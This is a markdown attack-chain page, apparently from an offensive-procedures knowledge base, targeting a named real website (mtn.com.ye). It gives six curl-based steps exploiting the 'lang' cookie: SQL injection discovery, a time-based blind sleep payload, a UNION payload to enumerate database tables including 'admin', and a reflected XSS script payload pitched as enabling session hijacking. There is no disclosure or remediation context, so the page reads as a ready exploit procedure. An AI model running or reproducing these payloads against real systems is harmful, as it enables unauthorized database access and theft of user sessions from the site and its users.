

# SQL Injection and Reflected XSS via Lang Cookie on MTN Yemen Website

Multi-stage attack chain demonstrating exploitation of SQL injection and reflected XSS vulnerabilities in the 'lang' cookie parameter on the MTN Yemen website's search endpoint, allowing database content access and arbitrary JavaScript execution in the victim's browser.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- curl (for HTTP requests)

### Target Environment

- Web application on PHP with MySQL backend
- Access to the search endpoint: /index.php/search/default
- No authentication required

### Initial Access Requirements

- Direct network access to mtn.com.ye
- Ability to set and modify cookies in HTTP requests
- Browser or proxy for XSS execution

## Detailed Attack Procedures

### Step 1: Send Baseline Request
procedure: [[procedures/Discover-SQL-Injection-in-Lang-Cookie]]

**Objective**: Establish a normal response baseline from the search endpoint with standard cookies.

**Instructions**: Use [[commands/baseline-search-request]] to send a standard GET request:

```bash
curl -X GET "http://mtn.com.ye/index.php/search/default?t=1&x=0&y=0" \
  -H "Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=en; _ga=GA1.3.1859249834.1576704214; _gid=GA1.3.1031541111.1576704214; _gat=1; _gat_UA-44336198-10=1" \
  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

**Expected Output**: Normal HTML response without errors.

**Success Indicators**:
- Response time under 1 second
- No SQL errors in response body

### Step 2: Inject Single Quote for SQLi Discovery
procedure: [[procedures/Discover-SQL-Injection-in-Lang-Cookie]]

**Objective**: Test for SQL injection by injecting a single quote into the lang cookie to trigger a syntax error.

**Instructions**: Modify the cookie with a single quote using [[commands/sqli-single-quote-injection]]:

```bash
curl -X GET "http://mtn.com.ye/index.php/search/default?t=1&x=0&y=0" \
  -H "Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=en'; _ga=GA1.3.1859249834.1576704214; _gid=GA1.3.1031541111.1576704214; _gat=1; _gat_UA-44336198-10=1" \
  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

**Expected Output**: SQL syntax error message in the response.

**Success Indicators**:
- Error like "SQL syntax error" appears
- Confirms unsanitized cookie usage in queries

### Step 3: Balance Quotes to Confirm Injection Point
procedure: [[procedures/Confirm-SQL-Injection-with-Balanced-Quotes]]

**Objective**: Confirm the injection point by closing the SQL statement with a double quote to eliminate the error.

**Instructions**: Use [[commands/sqli-double-quote-balance]] to inject two quotes:

```bash
curl -X GET "http://mtn.com.ye/index.php/search/default?t=1&x=0&y=0" \
  -H "Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=en''; _ga=GA1.3.1859249834.1576704214; _gid=GA1.3.1031541111.1576704214; _gat=1; _gat_UA-44336198-10=1" \
  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

**Expected Output**: Normal response without SQL errors.

**Success Indicators**:
- Error from previous step resolved
- Validates controllable injection point

### Step 4: Perform Time-Based Blind SQLi
procedure: [[procedures/Perform-Time-Based-Blind-SQL-Injection]]

**Objective**: Verify blind SQL execution using a sleep function to induce delays.

**Instructions**: Inject a URL-encoded sleep payload with [[commands/sqli-time-based-blind]]:

```bash
curl -X GET "http://mtn.com.ye/index.php/search/default?t=1&x=0&y=0" \
  -H "Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=%2b(select*from(select(sleep(20)))a)%2b; _ga=GA1.3.1859249834.1576704214; _gid=GA1.3.1031541111.1576704214; _gat=1; _gat_UA-44336198-10=1" \
  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" \
  --max-time 30
```

**Expected Output**: Response delayed by approximately 20 seconds.

**Success Indicators**:
- Delay confirms SQL execution
- No visible output but timing proves vulnerability

### Step 5: Extract Database Tables
procedure: [[procedures/Extract-Database-Tables-via-SQL-Injection]]

**Objective**: Enumerate database tables, including sensitive ones like 'admin', using SQLi payloads.

**Instructions**: Craft union-based or error-based payloads (specifics adapted for blind context) to extract schema; example using [[commands/sqli-table-extraction]] (note: full payloads require iteration, here illustrative):

```bash
curl -X GET "http://mtn.com.ye/index.php/search/default?t=1&x=0&y=0" \
  -H "Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=' UNION SELECT table_name FROM information_schema.tables-- ; _ga=GA1.3.1859249834.1576704214" \
  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

**Expected Output**: Table names like 'admin' reflected or inferred via errors/timing.

**Success Indicators**:
- Tables enumerated
- Potential for data exfiltration identified (limited by permissions)

### Step 6: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-in-Lang-Cookie]]

**Objective**: Inject and execute JavaScript via the reflected lang cookie value.

**Instructions**: Use Burp Suite to set payload and request in browser with [[commands/xss-payload-injection]]:

```bash
curl -X GET "http://mtn.com.ye/index.php/search/default?t=1&x=0&y=0" \
  -H "Cookie: PHPSESSID=86ce3d04baa357ffcacf5d013679b696; lang=ens4tgl%22%3e%3cscript%3ealert(document.domain)%3c%2fscript%3ecyfn9; _ga=GA1.3.1859249834.1576704214" \
  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```
Then forward to browser for execution.

**Expected Output**: Alert popup displaying document.domain.

**Success Indicators**:
- JavaScript executes in browser context
- Enables session hijacking or phishing via MiTM

## Attack Chain Summary

### Key Achievements

1. Confirmed SQL injection in cookie parameter allowing database access
2. Enumerated tables including admin credentials potential
3. Demonstrated reflected XSS for client-side execution

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
